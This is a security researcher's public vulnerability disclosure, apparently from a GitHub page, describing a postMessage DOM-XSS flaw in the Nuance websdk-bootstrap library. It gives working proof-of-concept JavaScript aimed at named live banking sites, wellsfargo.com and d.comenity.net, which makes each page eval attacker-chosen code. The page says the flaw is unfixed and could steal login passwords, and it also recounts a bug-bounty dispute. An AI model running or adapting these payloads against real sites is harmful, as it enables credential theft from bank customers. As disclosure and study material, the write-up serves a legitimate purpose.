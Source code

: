 ```yaml
---
title: Nuance Library XSS
---
```


The [@nuance-sdk/websdk-bootstrap](https://docs.nuance.com/agent-coach/APIs/Web-SDK/architectural-overview.html) version 2.5.0 or below would allow XSS via postMessage if the UUID is known its normally a hardcoded public value.
Newer library versions added a origin check `if (this.frameEl && this.frameEl.src.indexOf(e.origin) == -1)`


# XSS on https://www.wellsfargo.com 

It was triaged as Medium (4.7) but later closed because "DOM-XSS is explicitly out of scope in the program policy"  An attempt was made to contact HackerOne support who think DOM-XSS has a limited risk due to its client-side nature and said public disclosure is a code of conduct violation.
During my account deletion request they changed program policy to allow DOM-XSS however still did not fix it. <https://hackerone.com/wellsfargo-bbp/policy_versions?change=3751314&type=team>
```js
onclick = () => {

let win = open('https://www.wellsfargo.com/goals-credit/smarter-credit/credit-101/fico/');

setTimeout(() => {
 // Ask the bank to create an iframe for favicon.ico as it does not have as strict a CSP.
 win.postMessage(JSON.stringify({UUID:'WF_10006005', command: '1_PC_CREATE', info: {iframeId: 'favicon', src: ['https://www.wellsfargo.com/favicon.ico']}}), '*')
}, 2000);
setTimeout(() => {
 // Ask the bank to eval some JS via favicon.
 win.postMessage(JSON.stringify({UUID:'WF_10006005', command: 'CALL_OUT_FUNC', info: {name: 'favicon.contentWindow.eval', params: ['top.alert(window.origin)']}}), '*');
}, 3000);

}
```


# XSS on https://d.comenity.net

This site has no security contact and emailing their privacy contact did not result in the issue being fixed.

```js
onclick = () => {

let win = open('https://d.comenity.net/ac/nflvisa/public/home');

setInterval(() => {
 // Ask the bank to eval some JS via favicon.
 win.postMessage(JSON.stringify({UUID:'1112233', command: 'CALL_OUT_FUNC', info: {name: 'eval', params: ['alert(window.origin)']}}), '*');
}, 2000);

}
```


# Impact

Both sites have a login form so it could steal user passwords that may be automatic in the case of password manager usage or indirectly by using a scary message.

It does have `autocomplete="off"` but many modern browsers do not support autocomplete="off" for login fields. <https://developer.mozilla.org/en-US/docs/Web/Security/Practical_implementation_guides/Turning_off_form_autocompletion#managing_autofill_for_login_fields>

Other impacts may exist like if the origin contains or can embed account management, exposed cookies, site isolation bypass.

# Public disclosure
While I acknowledge there's very "limited" extra risks in regards to public disclosure here I dont feel there is any more I can do with unresponsive teams. If companies do feel that report submitting requires an NDA they are wrong and should never threaten over disclosure or pay for silence.
Also If I don't release this I will be thinking about it and that's a lot worse then any companies actions.
